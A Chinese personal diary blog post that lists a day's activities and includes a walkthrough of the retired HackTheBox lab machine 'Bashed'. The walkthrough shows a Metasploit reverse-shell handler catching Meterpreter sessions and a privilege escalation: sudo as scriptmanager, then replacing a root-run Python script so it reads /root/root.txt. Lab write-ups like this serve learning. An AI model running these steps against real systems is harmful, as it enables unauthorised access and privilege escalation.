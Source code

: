 ```yaml
---
title: 2021/3/31的修行
date: 2021-4-01 03:07:00
tags: [ '修行' ]
my: XenoAmess
---
```


稍稍 有点 疲倦了

……今天 早点 睡吧

---

### 1. 上班

### 2. 继续学习《设计模式之禅》

这种水平就可以写书吗……

……

看来我的书的日程要提前下了

### 3. 塑形课

### 4. 修改博客样式

### 5. HackTheBox Retired 【Bashed】打掉 （提权看了题解）

上接29日。

#### 5.1 提权

```shell
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.4
LHOST => 10.10.14.18
msf6 exploit(multi/handler) > set LPORT 2468
LPORT => 2468
msf6 exploit(multi/handler) > set ExitOnSession true
ExitOnSession => false
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.16.4:2468 
[*] Sending stage (39282 bytes) to 10.10.10.68
[*] Meterpreter session 3 opened (10.10.16.4:2468 -> 10.10.10.68:56894) at 2021-04-01 02:09:26 +0800
[*] Sending stage (39282 bytes) to 10.10.10.68
[*] Meterpreter session 4 opened (10.10.16.4:2468 -> 10.10.10.68:56896) at 2021-04-01 02:09:28 +0800
```

```shell
meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > sysinfo
Computer    : bashed
OS          : Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64
Meterpreter : php/linux
```

```shell
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.68 - Collecting local exploits for php/linux...
[-] 10.10.10.68 - No suggestions available.
```

啊这

emmmmmmm

看题解看题解

#### 5.2 看题解

Exploring directories on the target quickly reveals `/scripts`, which is owned by the scriptmanager
user. The command `sudo -l` reveals that the www-data user can run any command as
scriptmanager. Running the command `sudo -u scriptmanager bash -i` will spawn a bash shell
and give full read/write access to `/scripts`

```shell
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

```shell
sudo -u scriptmanager bash -i
bash: cannot set terminal process group (761): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/var/www/html/uploads$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py
test.txt
scriptmanager@bashed:/scripts$
```

/scripts/test.py
```shell
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

删掉test.py

新建一个test.py

用它本地的vi盲打也行，wget也行。……在这个shell里用vi坦白说还挺恶心的，不过 想做总能做

/scripts/test.py (改)

```shell
f2 = open("/root/root.txt", "r")
s = f2.read()
f2.close()
f = open("test2.txt", "w")
f.write(s)
f.close()
print(s)
```

为啥要拿root权限嘛

直接拿到flag 它不香嘛

（手动狗头）
